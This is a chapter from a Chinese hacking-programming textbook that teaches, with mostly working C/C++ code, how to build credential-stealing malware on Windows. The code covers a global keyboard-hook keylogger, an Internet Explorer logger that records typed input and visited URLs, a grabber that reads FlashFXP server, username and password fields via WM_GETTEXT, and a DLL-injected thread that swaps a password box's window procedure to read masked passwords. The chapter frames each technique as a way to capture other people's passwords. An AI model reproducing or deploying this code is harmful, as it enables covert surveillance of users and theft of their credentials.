要让系统把消息首先交给消息处理函数，我们就必须把钩子函数安装到系统中。`SetWindowsHookEx` 函数可以实现这个功能，此函数原型如下：

```c
HHOOK SetWindowsHookEx(
    int idHook,
    HOOKPROC lpfn,
    HINSTANCE hMod,
    DWORD dwThreadId
);
```

`idHook` 参数指定了要安装钩子的类型，也就是指定了哪种消息会交给消息处理函数处理。可以指定以下值：

- **WH_CALLWNDPROC**：每当调用 `SendMessage` 函数时，函数将消息发送给目标窗口过程前首先调用钩子函数。
- **WH_CALLWNDPROCRET**：当调用 `SendMessage` 函数时，函数将消息发送给目标窗口过程后再调用钩子函数。
- **WH_GETMESSAGE**：每当调用 `SendMessage` 或 `PeekMessage` 函数时，函数从程序的消息队列中获得一个消息后调用该钩子函数。
- **WH_KEYBOARD**：每当调用 `SendMessage` 或 `PeekMessage` 函数时，如果从消息队列中得到的是 `WM_KEYUP` 或 `WM_KEYDOWN` 消息，则调用钩子函数。
- **WH_MOUSE**：每当调用 `GetMessage` 或 `PeekMessage` 函数时，如果从消息队列中得到的是鼠标消息，则调用钩子函数。
- **WH_HARDWARE**：每当调用 `GetMessage` 或 `PeekMessage` 函数时，如果从消息队列中得到非鼠标和键盘消息，则调用钩子函数。
- **WH_MSGFILTER**：当用户对对话框、菜单和滚动条操作时，系统在发送对应的消息之前调用钩子函数，这种钩子函数只能是局部的。
- **WH_SYSMSGFILTER**：和 `WH_MSGFILTER` 一样，只不过是系统范围的。
- **WH_SHELL**：当 Windows shell 程序准备接收一些通知事件前调用钩子函数。
- **WH_DEBUG**：用来给其他钩子除错。
- **WH_CBT**：当基于计算机的训练事件发生时调用钩子。
- **WH_JOURNALRECORD**：日志记录钩子，用来记录发送给系统消息队列的所有消息，只能做全局钩子。
- **WH_JOURNALPLAYBACK**：日志回放钩子，用来回放日志记录钩子记录的事件，只能做全局钩子。
- **WH_FOREGROUNDIDLE**：系统空闲钩子，当系统空闲的时候调用钩子函数，这样就可以安排一些优先级低的任务。

在本实例中我们把此参数设为 `WH_GETMESSAGE`，这个类型的钩子可以截获 `WM_KEYDOWN` 消息（当键盘上的击键按下时触发的消息）。

`lpfn` 参数指向了钩子函数的地址。钩子安装后如果有相应的消息发生，Windows 将调用此参数指向的函数。

`hMod` 参数指向了钩子函数所在的 DLL 的实例句柄，如果钩子函数不在 DLL 中，则此参数设为 `NULL`。

`dwThreadId` 参数指向了安装钩子后想监控的线程的 ID 号，这个参数决定了钩子是局部的还是系统范围的。

如果该参数指定了自己进程中的某个线程的 ID，那么这个钩子就是局部钩子，系统只会交给钩子函数该线程本身的相应消息。

如果指定的线程 ID 是另一个进程中的某个线程，那么这个钩子就是局部远程钩子，系统只会把指定进程的相应消息交给钩子函数。如果这个参数设为 `NULL` 的话，就会安装全局钩子，系统会把系统中相应的所有消息交给钩子函数处理。

如果函数调用成功，则返回所安装的钩子句柄，否则返回 `NULL`。

关于这个函数还有一点要说明：当参数 `dwThreadId` 为其他进程中线程 ID（局部远程钩子）或为 `NULL`（全局钩子）的时候，钩子函数必须是一个 DLL 文件中的函数。这是因为进程的地址空间是相互隔离的，发生事件的进程不能调用其他进程地址空间的函数。如果函数的实现代码在 DLL 中，在有关事件发生时，系统会把这个 DLL 加载到发生事件的进程内存空间中，使它能够调用钩子函数。

本程序中的具体调用如下：

```cpp
BOOL StartHook()
{
    if (Kg_hHook != NULL)
        return FALSE;
    // 安装钩子
    Kg_hHook = SetWindowsHookEx(WH_GETMESSAGE,
        KeyHookProc, g_hInstance, NULL);
    return TRUE;
}
```

当我们不需要这个钩子的时候，就应该把它卸载掉，不然由于消息要经过钩子函数处理，会减慢程序对消息的处理效率，`UnhookWindowsHookEx` 函数可以实现这个功能，其原型如下：

```cpp
BOOL UnhookWindowsHookEx(
    HHOOK hhk
);
```

此函数只有一个参数，它是指向要卸载的钩子句柄。如果函数调用成功返回 `TRUE`，失败则返回 `FALSE`。

最后我们来看一下钩子函数，它的一般结构如下：

```cpp
LRESULT CALLBACK HookProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    // 消息处理代码
    return CallNextHookEx(Kg_hHook, nCode, wParam, lParam); // 把消息传递给下一个钩子函数
}
```

`nCode` 参数指向了给钩子函数的指令，表示应该如何处理该消息。如果安装的是 `WH_GETMESSAGE` 钩子，那么此参数等于 `HC_ACTION` 时，在 `lParam` 参数中就保存了一个 `MSG` 类型的结构体。此结构体定义如下：

```c
typedef struct tagMSG {
    HWND   hwnd;      // 窗口句柄
    UINT   message;   // 消息（用宏表示的具体哪个消息）
    WPARAM wParam;    // 指示了关于这个消息的附加信息参数
    LPARAM lParam;    // 指示了关于这个消息的附加信息参数
    DWORD  time;      // 指示了消息被传递的时间
    POINT  pt;        // 指示了当消息被投递时光标在屏幕上的位置
} MSG, *PMSG;
```

这里我们先来看看此结构中的 `message` 成员，由于这里安装的是 `WH_GETMESSAGE` 钩子，那么钩子函数会接收很多消息，所以要判断我们具体接收到了什么消息，假如是按键消息就分析按键内容。

要判断收到的是否是按键消息，就要用 `message` 成员和消息类型对比，具体代码如下：

```c
if (nCode == HC_ACTION)
{
    EVENTMSG *pEventMsg = (EVENTMSG *)lParam;
    // 判断是否有按键按下
    if (pEventMsg->message == WM_KEYDOWN)
    {
        // ......分析按键内容
    }
}
```

接下去我们还需要用到的是此结构中的 `wParam` 成员，假如收到的是 `WM_KEYDOWN` 消息，那么 `wParam` 中存放的是按键的 ASC 码。

> **编程加油站**  
> **什么是 ASC 码？**  
> ASC 码准确地说应该是 “ASCII” 码，是美国标准信息交换码的简称。最早由美国提出，被国际组织认可后又称为国际 5 号码，标准代码为 ISO-646 码。它是一个 7 位码，也就是把每个字符用了 7 个二进制位来表示（称为 7 比特，bit），一共有 128 个不同的编码。在它的编码表中包括 33 种控制码（用于打印或显示时的格式控制、对外部设备的操作控制、作为信息分隔以及通信时进行传输控制）；95 种可打印的字符（其中有 26 个英文字母大小写、10 个数字符号和 33 个标准符号、运算符号和其他符号）。

下面要做的当然是把 ASC 码转换成字符了，由于是一个按键对应一个 ASC 码，而有些按键又是包括两个字符的（按 Shift 键可以取到上面的字符），比如 Caps Lock 键按下输入的就是大写，所以我们必须判断这些功能键是否按下。这里 `GetKeyState` 函数可以完成这个功能，其原型如下：

```c
SHORT GetKeyState(int nVirtKey);
```

`nVirtKey` 参数指向了要得到按键状态的虚拟键值。返回值给出了虚拟键的状态，若高序位为 1，则该键处于 DOWN 状态，否则为 UP 状态。

若低序位为 1，则该键被触发。具体调用如下：

```c
const int KeyMask=0x80000000;
int iShift=GetKeyState(0x10);
int iCapital=GetKeyState(0x14);
int iNumLock=GetKeyState(0x90);
bool bShift=(iShift & KeyMask)==KeyMask;
bool bCapital=(iCapital & 1)==1;
bool bNumLock=(iNumLock & 1)==1;
```

此时 `bShift`、`bCapital`、`bNumLock` 为 `TRUE` 时表示相应的键按下，为 `FALSE` 时表示没有按下。这样我们只需要结合相应的 ASC 码值和这些键的状态，就能判断击键的内容了。

最后还需要调用 `CallNextHookEx` 函数把消息传递给下一个钩子函数。我们来看一下这个函数，它只比钩子函数多了第一个参数，此参数指向了钩子的句柄，由 `SetWindowsHookEx` 函数返回。

那么怎么让记录下的内容输出呢？我们这里就创建一个文件，把记录下的按键写入到此文件中。下面就是整个钩子函数的代码：

```cpp
LRESULT CALLBACK KeyHookProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    if (nCode < 0)
        return CallNextHookEx(Kg_hHook, nCode, wParam, lParam);
    if (nCode == HC_ACTION)
    {
        MSG *pEventMsg = (MSG*)lParam;
        // 判断是否有击键消息
        if (pEventMsg->message == WM_KEYDOWN)
        {
            // 得到按键的 ASC 码值
            int vKey = pEventMsg->wParam;
            char ch;
            char str[10];
            memset(Buff, 0, 10);
            memset(str, 0, 10);
            const int KeyMask = 0x80000000;

            // 得到 Shift 键的状态
            int iShift = GetKeyState(0x10);
            // 得到 Caps Lock 键的状态
            int iCapital = GetKeyState(0x14);
            // 得到 NumLock 键的状态
            int iNumLock = GetKeyState(0x90);
            bool bShift = (iShift & KeyMask) == KeyMask;
            bool bCapital = (iCapital & 1) == 1;
            bool bNumLock = (iNumLock & 1) == 1;

            // 判断按键是否是主键盘区的数字
            if (vKey >= 48 && vKey <= 57)
            {
                // ASC 码转换成字符
                switch (vKey)
                {
                    ...
                }
            }
        }
    }
}
```

```cpp
case 48: if (!bShift) ch='0'; else ch=')'; break;
case 49: if (!bShift) ch='1'; else ch='!'; break;
case 50: if (!bShift) ch='2'; else ch='@'; break;
case 51: if (!bShift) ch='3'; else ch='#'; break;
case 52: if (!bShift) ch='4'; else ch='$'; break;
case 53: if (!bShift) ch='5'; else ch='%'; break;
case 54: if (!bShift) ch='6'; else ch='^'; break;
case 55: if (!bShift) ch='7'; else ch='&'; break;
case 56: if (!bShift) ch='8'; else ch='*'; break;
case 57: if (!bShift) ch='9'; else ch='('; break;
}
Buf[0]=ch;
DataToFile(Buf);

// 判断按键是否是主键盘区的字母
if (vKey>=65 && vKey<=90)
{
    // 判断 Caps Lock 键是否按下
    if (!bCapital)
    {
        // 判断 Shift 键是否按下
        if (!bShift)
            ch=vKey;
        else
            ch=vKey+32;
    }
    else
    {
        if (bShift) ch=vKey+32;
        else ch=vKey;
    }
    Buf[0]=ch;
    DataToFile(Buf);
}

// 判断按键是否是数字区的数字键
if (vKey>=96 && vKey<=105)
{
    if (bNumLock)
    {
        switch (vKey)
        {
        case 96:  ch='0'; break;
        case 97:  ch='1'; break;
        case 98:  ch='2'; break;
        case 99:  ch='3'; break;
        case 100: ch='4'; break;
        case 101: ch='5'; break;
        case 102: ch='6'; break;
        case 103: ch='7'; break;
        case 104: ch='8'; break;
        case 105: ch='9'; break;
        }
    }
}
```

```cpp
Buff[0]=ch;
DataToFile(Buff);

// 判断按键是否是主键盘区的符号键
if ((vKey>=186) && (vKey<=222))
{
    // 把 asc 码转换成字符
    switch (vKey)
    {
        case 186: if (!bShift) ch=';'; else ch=':'; break;
        case 187: if (!bShift) ch='='; else ch='+'; break;
        case 188: if (!bShift) ch=','; else ch='<'; break;
        case 189: if (!bShift) ch='-'; else ch='_'; break;
        case 190: if (!bShift) ch='.'; else ch='>'; break;
        case 191: if (!bShift) ch='/'; else ch='?'; break;
        case 192: if (!bShift) ch='`'; else ch='~'; break;
        case 219: if (!bShift) ch='['; else ch='{'; break;
        case 220: if (!bShift) ch='\\'; else ch='|'; break;
        case 221: if (!bShift) ch=']'; else ch='}'; break;
        case 222: if (!bShift) ch='\''; else ch='"'; break;
        default: break;
    }

    Buff[0]=ch;
    DataToFile(Buff);
}

switch (vKey)
{
    // 判断是否是退格键
    case 8:
    {
        strcpy(Buff,"[BK]");
        DataToFile(Buff);
        break;
    }

    // 判断是否是回车键
    case 13:
    {
        strcpy(Buff,"[enter]");
        DataToFile(Buff);
        break;
    }

    default: break;
}

return CallNextHookEx(Kg_hHook, nCode, wParam, lParam);
```

由于我们要创建的是全局钩子，所以还必须建立一个 DLL 工程，把这个钩子函数写入到 DLL 工程中。我们还必须要创建一个导出函数（StartHook），用此函数来实现安装钩子。具体源码在光盘“第四章\Keyboard”下。

有了导出函数当然还需要外部的应用程序调用它，所以我们还需要编写一个 exe 文件调用这个导出函数，来安装全局钩子。具体源码在光盘“第四章\SetKeyHook”下。

到这里键盘记录是讲完了，但是只应用键盘记录记录用户输入的数据，在实际应用中是发挥不了多大作用的。因为你并不知道这些数据是在哪些窗口中输入的，因此就算记录再多的数据也是徒劳。一般的键盘记录程序都是针对一个或几个程序实行记录的，所以我们还需要学习关于窗口定位的一些编程技术。

接着我们就结合一个记录 IE 键盘输入的程序，为大家讲解关于窗口定位的一些编程技术。这个程序主要记录 IE 访问的网页和网页中的键盘输入。

首先我们来了解一下 IE 窗口的组成，如图 3 所示。在图 3 中已经标明了要用到的 IE 窗口中的框架，我们先来看一下网页显示框架，在此输入的内容，我们的程序肯定是要记下来的，实现这个过程我们用键盘记录就可以了。


图 3

接着是地址栏，这里的 URL 我们的程序当然也要记下来。有人可能会说，用键盘记录呀！但是这里我们不能用键盘记录了，首先 IE 是有历史记录的，假如最近访问过某网站，再次输入此网站地址时，IE 就会有提示，此时点击提示的地址，就能自动完成输入，这样用键盘记录记录的网址就不完整了。

再说了，假如直接点击网页链接转到另一个网站，此时根本就不存在键盘输入，而已经打开了另一个网站，所以这里就不能用键盘记录了。

其实我们可以直接给地址栏发送 WM_GETTEXT 消息，得到地址栏中的 URL。并且还要重复这一过程，用后一次得到的 URL 和前一次的对比，监视 URL 是否改变。

但是假如真用上述方法得到地址栏中的数据，那么又会产生一个新问题！由于我们的键盘记录是一直启动着的，所以地址栏中的键盘输入也会被记录，这样就会导致网址的重复记录。那么怎么才能解决这个问题呢？我们可以利用鼠标的位置和窗口的类名来解决这个问题。

首先得到鼠标坐标位置，然后得到鼠标所在位置的窗口类名，比较得到的窗口类名是否和网页显示框架窗口的类名相同。假如相同就说明此时在对网页显示区进行操作，那么此刻假如没有安装钩子，则调用函数安装钩子。否则，假如钩子安装上了，就卸载钩子。并且此过程要反复调用，这样我们的问题就解决了。

#### 编程小贴士

#### 程序中的窗口

对于一个有窗体的程序来说，一般都不止一个窗口，其实程序中的一个按钮、一个文本框等都是一个窗口，所以它们都有窗口类名和句柄。

程序的具体流程如图 4 所示。我们先来关注下 FindMainThread 线程。在看线程函数的代码前，我们先来学习下此线程函数中要用到的几个 API。首先是 GetCursorPos 函数，此函数用于获取鼠标光标的位置。其函数原型如下：

```c
BOOL GetCursorPos(LPPOINT lpPoint);
```

lpPoint 参数指向了一个 POINT 结构指针，该结构用于接收光标的屏幕坐标。

如果函数执行成功返回 TRUE，否则返回 FALSE。


接着是 WindowFromPoint 函数，此函数可以根据屏幕坐标位置得到坐标所在窗口的句柄，其函数原型如下：

```c
HWND WindowFromPoint(POINT Point);
```

Point 参数指向一个被检测的点的 POINT 结构，这里由 GetCursorPos 函数得到。函数调用成功则返回指定坐标的窗口句柄，否则返回 NULL。

下面我们来看最后一个函数：GetClassName 函数，根据它的名字就可以知道是用于得到窗口类名的，其函数原型如下：

```c
int GetClassName(HWND hWnd,
                 LPTSTR lpClassName,
                 int nMaxCount);
```

hWnd 参数指向了要得到其类名的窗口的句柄，这里由 WindowFromPoint 函数得到返回。

lpClassName 参数指向了接收窗口类名字符串的缓冲区的指针。nMaxCount 参数指向了缓冲区的大小。

如果函数成功，返回值为拷贝到指定缓冲区的字符个数；如果函数失败，返回值为 0。

有了这些基础，要看懂此线程函数的代码就不难了，具体代码如下：

```c
DWORD WINAPI FindMainThread(LPVOID lpParam)
{
    BOOL bHook = TRUE;
    // 循环监控
    while (TRUE)
    {
        Sleep(1000);
        tagPOINT lpPoint;
        HWND hwnd;
        char ClassName[255];

        // 得到鼠标当前坐标
        GetCursorPos(&lpPoint);

        // 得到当前坐标所在窗体的句柄
        hwnd = WindowFromPoint(lpPoint);
        if (hwnd == NULL)
            return 0;

        // 得到窗体的类名
        GetClassName(hwnd, ClassName, 255);

        // 当鼠标在 ie 网页显示框中并且键盘钩子没有安装时，安装钩子
        if (strcmp(ClassName, "Internet Explorer_Server") == 0 && bHook)
        {
            ...
        }
    }
}
```

```cpp
// 安装钩子
if (!NewStartHook())
    continue;
bHook = FALSE;

// 当鼠标没在 ie 网页显示框架中并且键盘钩子安装时，卸载钩子
if (strcmp(ClassName, "Internet Explorer_Server") != 0 && !bHook)
{
    // 卸载钩子
    if (!NewStopHook())
        continue;
    bHook = TRUE;
}

return 0;
```

上面代码中的 **NewStartHook()** 和 **NewStopHook()** 函数为钩子函数 DLL 中的导出函数。下面再来看一个 **FindUrlThread** 线程的线程函数，具体代码如下：

```cpp
DWORD WINAPI FindUrlThread(LPVOID lpParam)
{
    char FirstUrl[512] = {0};
    char NextUrl[512] = {0};
    char Data[512] = {0};

    // 循环监控
    while (TRUE)
    {
        Sleep(500);

        // 得到地址栏 url
        if (!UrlFind(FirstUrl))
            continue;

        // 和上次得到的 url 比较，不相同则把现在的 url 写入文件
        if (strcmp(FirstUrl, NextUrl) == 0)
            continue;

        strcpy(Data, "\r\n");
        strcat(Data, FirstUrl);
        strcat(Data, "\r\n");
        DataToFile(Data);

        // 保存现在得到的 url
        strcpy(NextUrl, FirstUrl);

        // 变量清空
        memset(FirstUrl, 0x00, 512);
        memset(Data, 0x00, 512);
    }

    return 0;
}
```

这里的 **UrlFind** 是一个自定义函数，用于比较当前活动窗口是否为 IE，假如是 IE 就得到地址栏的 URL。此函数调用了一些我们没接触过的 API 函数，这里给出讲解。首先是 **GetForegroundWindow** 函数，此函数用于得到当前活动窗口句柄，无参数，假如函数调用成功则返回当前活动窗口句柄。

接着我们就来学习 FindWindowEx 函数，此函数可以根据窗口类名和窗口名，得到窗口句柄。在编程中经常会用到这个函数，其函数原型如下：

```cpp
HWND FindWindowEx(HWND hwndParent,
                  HWND hwndChildAfter,
                  LPCTSTR lpszClass,
                  LPCTSTR lpszWindow);
```

hwndParent 参数指向要查找子窗口的父窗口句柄，如果为 NULL，则查找桌面窗口的所有子窗口。

hwndChildAfter 参数指向了要开始查找的子窗口句柄，假如为 NULL，则从父窗口的第一个子窗口开始查找。

lpszClass 参数指向了要查找的子窗口的类名的字符串。

lpszWindow 参数指向了要查找的子窗口的标题。

如果找到了指定窗口，则返回此窗口句柄，否则返回 NULL。

这里必须要注意，此函数查找窗口必须连续调用，一层一层地往下查找，因为 hwndChildAfter 参数指向的子窗口句柄必须是 hwndParent 参数指向的父窗口句柄的直接子窗口。

为了更好地让大家理解这句话，下面我们来模拟一个窗口的结构，请看图 5。


比如现在要得到窗口 5 的句柄，那么首先第一次调用 FindWindowEx 函数时 hwndParent 为窗口 1 的句柄，lpszClass 参数和 lpszWindow 分别为窗口 3 的类名和标题名，这次调用返回窗口 3 的句柄。接着再次调用 FindWindowEx 函数，hwndParent 为窗口 3 的句柄，lpszClass 参数和 lpszWindow 分别为窗口 5 的类名和标题名，这次调用返回窗口 5 的句柄。

那么我们具体怎么得到某个窗体结构呢？VC++6.0 为我们提供了一个强大的窗口查找工具：spy++，如图 6 所示。

那么我们怎么用这个工具查找一个窗体的结构呢？首先单击 VC++ 中工具栏的右数第三个按钮（或按快捷键 Alt+F3），打开如图 6 所示的界面。单击拖动图中 Finder Tool 右边的标志到你要查找的窗口，放开鼠标就回到了如图 7 所示的窗口，点击“OK”就会返回所要查找窗体的结构。这里以查找 IE 地址栏为例，返回结果如图 8 所示。


我们只要在图 8 的页面中双击某个窗口的节点，就能得到此窗口的信息，包括标题和类名等，如图 9 所示。


图 9 中 Class 标签下 Class Name 中显示的是窗体类名，General 标签下 Windows Caption 中显示的是窗体的标题。

下面我们来看一下 UrlFind 函数的庐山真面目：

```c
BOOL UrlFind(char *url)
{
    HWND hwnd;
    char ClassName[255];
    // 得到当前活动窗口句柄
    hwnd=GetForegroundWindow();
    // 得到当前活动窗口类名
    GetClassName(hwnd,ClassName,255);
    // 判断是否是 IE 窗口
    if(strcmp(ClassName,"IEFrame")!=0)
        return FALSE;
    // 是 IE 窗口则继续查找 url 地址栏
    hwnd=FindWindowEx(hwnd,NULL,"WorkerW",NULL);
    if(hwnd==NULL)
        return FALSE;
    hwnd=FindWindowEx(hwnd,NULL,"ReBarWindow32",NULL);
    if(hwnd==NULL)
        return FALSE;
    hwnd=FindWindowEx(hwnd,NULL,"ComboBoxEx32",NULL);
    if(hwnd==NULL)
        return FALSE;
    hwnd=FindWindowEx(hwnd,NULL,"ComboBox",NULL);
    if(hwnd==NULL)
        return FALSE;
    hwnd=FindWindowEx(hwnd,NULL,"Edit",NULL);
    if(hwnd==NULL)
        return FALSE;
    // 向地址栏发送 WM_GETTEXT 消息，得到网页地址
    SendMessage(hwnd,WM_GETTEXT,1024,(LPARAM)url);
    return TRUE;
}
```

到这里这两个线程已经实现了，最后我们只需在 WinMain 函数中启动这两个线程和装载钩子函数的 DLL 文件，并且得到其中导出函数地址就可以了。具体代码在光盘“第四章\Markle”下，大家可要好好研究哦！

### 4.2 非钩子密码截获技术

前置知识：C/C++基础、远程线程技术、DLL编程  
难度：中等  
编译环境：VC++ 6.0  
测试环境：Windows XP

虽然钩子在密码截获方面有不错的表现，但是用钩子截获密码，往往并不是非常准确的。比如某用户直接用复制粘贴来输入密码，那么键盘记录也就无能为力了。本小节我们将从新的角度来窥视密码截获技术。

不知道大家是否记得在上一小节中为了得到 IE 地址栏的 URL 而调用了如下 API 函数：

```c
SendMessage(hwnd, WM_GETTEXT, 1024, (LPARAM)url);
```

此代码执行后程序会向 IE 地址栏发送 WM_GETTEXT 消息，然后 IE 地址栏就会响应此消息，返回 IE 地址栏中的数据，调用后参数 url 中就返回了 IE 地址栏中的 URL 了。我想读到这里大部分读者已经想到了，我们可以向密码框窗体发送 WM_GETTEXT 消息！其实本小节就是围绕 WM_GETTEXT 消息展开的。

也许很多读者不习惯用 SendMessage 函数，因为一般要得到窗体文本，大家都会调用 GetWindowText 函数，但是这个函数有一个缺陷，假如目标窗口属于自身进程，此函数就发送 WM_GETTEXT 消息；假如目标窗口属于其他进程，就不发送 WM_GETTEXT 消息，只是在目标窗口有标题的情况下返回窗口标题名，否则返回空字符串，所以有些文本框的内容也就没法得到了。

我们马上就用发送 WM_GETTEXT 消息的方法来实现一个截获 FlashFXP 密码的小程序。FlashFXP 是目前使用最广泛的一个 FTP 客户端连接工具，如图10所示。


图10

从图10中可以看到，我们程序要得到的就是“快速连接窗口”中的“服务器”、“用户名”和“密码”这些静态文本所对应的文本框中的内容。

那么程序首先必须监控“快速连接”窗口，判断其是否为当前活动窗口。是，则监控鼠标光标位置是否在“连接”按钮处；在，则说明 FTP 连接数据已经输入完成，要连接服务器了，此时向相应的文本框窗口发送 WM_GETTEXT 消息，得到其中的数据，并写入文件保存。

从上面可以看出此程序的流程是相当简单的，但是目前我们还需要解决一个问题：如何确定鼠标光标位置在“连接”按钮处。由于此窗口中有三个按钮，并且它们的类名是完全一样的，所以我们就不能用上一小节中比较类名的方法来确定光标是否在“连接”按钮处。

不过我们可以变通一下，得到光标所在位置的窗体句柄后，就向此窗体发送 WM_GETTEXT 消息，得到窗体文本内容。假如得到的内容是“连接”，则说明光标已经在“连接”按钮处了，这就叫现学现用吧。

由于很多知识在上一小节已经讲过了，这里我们就直接来看一下主体代码吧（源码在光盘“第四章\NoHook\PostMessage”下）：

```cpp
while(TRUE)
{
    HWND hwnd;
    char ClassName[255];
    // 得到当前活动窗口句柄
    hwnd=GetForegroundWindow();
    // 得到当前活动窗口类名
    GetClassName(hwnd, ClassName, 255);
    // 判断是否是快速连接窗口
    if(strcmp(ClassName,"TfrmQuick")==0)
    {
        char ButtonName[80]={0};
        tagPOINT lpPoint;
        // 得到鼠标当前坐标
        GetCursorPos(&lpPoint);
        // 得到当前坐标所在窗体的句柄
        hwnd=WindowFromPoint(lpPoint);
        if(hwnd==NULL)
            continue;
        // 发送 WM_GETTEXT 消息，得到窗体文本
        SendMessage(hwnd, WM_GETTEXT, 80, (LPARAM)ButtonName);
        // 假如文本内容为“连接”则说明鼠标光标在连接按钮上了
        if(strcmp(ButtonName,"连接")!=0)
            continue;

        hwnd=FindWindowEx(NULL, NULL, "TfrmQuick", "快速连接");
        if(hwnd==NULL)
            continue;
        hwnd=FindWindowEx(hwnd, NULL, "TPageControl", NULL);
        if(hwnd==NULL)
            continue;
        hwnd=FindWindowEx(hwnd, NULL, "TTabSheet", "常规");
        if(hwnd==NULL)
            continue;

        HWND hFirst=FindWindowEx(hwnd, NULL, "TEdit", NULL);
        if(hFirst==NULL)
            continue;
        // 得到服务器IP
        SendMessage(hFirst, WM_GETTEXT, 80, (LPARAM)ServerIp);

        HWND hNext=FindWindowEx(hwnd, hFirst, "TEdit", NULL);
        if(hNext==NULL)
            continue;
        // 得到密码
        ...
    }
}
```

```c
SendMessage(hNext, WM_GETTEXT, 80, (LPARAM)PassWord);
hNext=FindWindowEx(hwnd, hNext, "TEdit", NULL);
if (hNext==NULL)
    continue;
hNext=FindWindowEx(hwnd, hNext, "TEdit", NULL);
if (hNext==NULL)
    continue;
hNext=FindWindowEx(hwnd, hNext, "TEdit", NULL);
if (hNext==NULL)
    continue;

// 得到用户名
SendMessage(hNext, WM_GETTEXT, 80, (LPARAM)UserName);
// 和上一次记录的用户名进行比较，防止重复记录
if (strcmp(BackUserName,UserName)==0)
    continue;

// 备份用户名
strcpy(BackUserName, UserName);
char Data[512]={0};

// 格式化数据
wsprintf(Data,"\r\n服务器IP：%s\r\n用户名：%s\r\n密码：%s\r\n", ServerIp, UserName, PassWord);

// 写入文件
DataToFile(Data);

Sleep(500);
```

本程序执行效果如图11所示。


图11

但是对于有些密码框，仅仅发送 WM_GETTEXT 消息是不能得到密码的。为什么呢？我们大家都知道，一个密码框其实也是一个窗口，只要是一个可用的窗口，它就有相应的窗口处理函数。假如此函数过滤了由外部程序提交的 WM_GETTEXT 消息，那么我们的程序向目标文本框发送再多的 WM_GETTEXT 消息也是徒劳，并不会返回文本框中的数据。

> **编程小贴士**
>
> **什么是窗口处理函数？**
>
> 窗口处理函数是一个回调函数，当窗口收到消息时，就把消息传递给窗口处理函数，此函数根据不同的消息，执行相应代码。比如正常情况下收到 WM_GETTEXT 消息就返回窗口文本内容。

对于这种密码框要得到密码其实也并不难，既然程序过滤了外部程序提交的 WM_GETTEXT 消息，那么我们能不能让自身进程向文本框发送 WM_GETTEXT 消息呢？我们利用远程线程技术不就可以实现了吗？只需要把发送 WM_GETTEXT 消息的代码包含在 DLL 文件中，并且在 DLLMain 函数中调用这些代码，然后调用远程线程函数，让目标进程加载这个 DLL 即可。这样就相当于自身进程向其密码框发送 WM_GETTEXT 消息了。

但是往往事事都不会那么顺心，有些程序的密码框是完全过滤 WM_GETTEXT 消息的，就算用远程线程技术也得不到密码了。就像下面这个小程序，如图12所示。


图12

当单击“屏蔽 WM_GETTEXT 消息”按钮后，不管用何种方式向密码框发送 WM_GETTEXT 消息都得不到密码了。

那么面对这种密码框我们该怎么办呢？当然不是放弃！我们先来看一下好心的微软为我们提供的两个 API 函数。首先是 GetWindowLong 函数，该函数用于获得指定窗口的相关信息，此函数原型如下：

```c
LONG GetWindowLong(HWND hWnd, int nIndex);
```

hWnd 参数指向了窗口句柄。

nIndex 参数指向了要获得信息的类型，具体有如下几种：

- GWL_EXSTYLE：获得扩展窗口风格。
- GWL_STYLE：获得窗口风格。
- GWL_WNDPROC：获得窗口处理函数地址。
- GWL_HINSTANCE：获得应用实例的句柄。
- GWL_HWNDPARENT：如果父窗口存在，获得父窗口句柄。
- GWL_ID：获得窗口标识。
- GWL_USERDATA：获得与窗口有关的 32 位值。

如果函数调用成功，返回 32 位整数表示的相应信息的值，否则返回 0。

与 GetWindowLong 函数对应的是 SetWindowLong 函数，顾名思义，此函数可以改变指定窗口的相关信息。其函数原型如下：

```c
LONG SetWindowLong(HWND hWnd, int nIndex, LONG dwNewLong);
```

前两个参数和 GetWindowLong 函数是一样的，这里指向的是要设置信息的窗口。dwNewLong 参数指向了要替换的值，可以由 GetWindowLong 函数返回。

此函数调用成功则返回原来相应信息的 32 位值，否则返回 0。

学习了这两个函数之后，我们就可以试图来获取图12中所示程序密码框中的密码了。首先来关注下这两个函数的 nIndex 参数，可以把它设成 GWL_WNDPROC，那么 GetWindowLong 函数就可以得到窗口处理函数地址，而 SetWindowLong 函数就可以改变窗口处理函数地址。

## 第4章 穿透黑客编程

程序的思路是否也渐渐明晰了呢？首先建立一个隐藏的密码框，然后调用 GetWindowLong 函数得到其窗口处理函数地址，接着我们只需要调用 SetWindowLong 函数把密码框的窗口处理函数地址替换成我们新建的密码框的窗口处理函数地址，最后再发送 WM_GETTEXT 消息给密码框，就能得到其密码了。

不过只是这样的话，上面的过程是没法实现的，因为一个窗口的窗口处理函数必须是在其自身进程的内存中，而不能在其它进程的内存中。解决方法还是利用远程线程技术，把上述替换窗口处理函数的过程写成一个线程函数，包含在 DLL 中，并且在 DLLMain 函数中创建线程，调用这个函数。最后只需把整个 DLL 文件注入目标进程就可以了。

下面我们来看看这个线程函数，具体代码如下（完整源码在光盘“第四章\NoHook”下）：

```c
DWORD WINAPI GetPassThread(LPVOID lpParam)
{
    char PassWord[80]={0};
    // 得到密码框句柄
    HWND hTForm=FindWindowEx(NULL,NULL,"TForm1","test");
    HWND hTMaskEdit=FindWindowEx(hTForm,NULL,"TMaskEdit",NULL);
    if(hTMaskEdit==NULL)
        return 0;

    // 建立新的密码框
    HWND hEdit=CreateWindow("Edit", "",
        WS_VISIBLE | WS_CHILDWINDOW | ES_PASSWORD,
        30, 20, 150, 60, hTForm, (HMENU)1000,
        GetModuleHandle(NULL), NULL);

    // 得到新密码框的窗口处理函数地址
    DWORD newWndProc=GetWindowLong(hEdit,GWL_WNDPROC);

    // 替换密码框的窗口处理函数地址为新密码框的窗口处理函数地址
    DWORD oldWndProc=SetWindowLong(hTMaskEdit,GWL_WNDPROC,newWndProc);

    // 向密码框发送 WM_GETTEXT 消息
    SendMessage(hTMaskEdit, WM_GETTEXT, 80, (LPARAM)PassWord);
    MessageBox(NULL, PassWord, "password", 0);

    // 还原密码框窗口处理函数
    SetWindowLong(hTMaskEdit, GWL_WNDPROC, oldWndProc);
    return 0;
}
```

下面我们来看看程序的执行效果，如图13所示。


图13

## 第五章 API HOOK 编程实现


- HOOK API 的实现
- 用 API HOOK 编写一个进程保护器

## 5.1 HOOK API 的实现

HOOK API，顾名思义就是挂钩 API 函数，拦截、控制某些 API 函数的调用。但是这里所讲的 API HOOK 和第四章中所讲的 Message Hook 在原理上是完全不一样的！在真正开始本章前必须明白这一点。

